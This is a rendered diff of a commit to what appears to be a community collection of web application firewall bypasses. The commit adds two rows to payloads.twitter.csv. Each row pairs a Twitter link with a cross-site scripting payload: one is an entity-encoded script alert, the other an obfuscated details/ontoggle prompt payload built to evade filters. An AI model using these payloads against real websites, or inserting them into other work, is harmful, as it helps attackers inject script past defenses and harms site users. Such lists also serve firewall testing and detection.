

Before and after one commit to waf-bypass-maker/waf-community-bypasses, a CSV file: payloads.twitter.csv, drawn as a sheet; only a part is shown, gaps mark what is left out; long unchanged cells end in …; the diff names each change by its address in the sheet, - before the commit and + after, or states it on an @@ line.

Commit message:
Added new Bypasses

```diff
--- a/payloads.twitter.csv
+++ b/payloads.twitter.csv
+row 486: https://twitter.com/g1nk00/status/1735407588529913969 | &amp;#60;script&amp;#62;alert(1)&amp;#60;/script&amp;#62; | xss
+row 487: https://twitter.com/TheMsterDoctor1/status/1743187595163501005 | &lt;dETAILS%0aopen%0aonToGgle%0a%3d%0aa%3dprompt | a(origin)%20x&gt; | xss
```
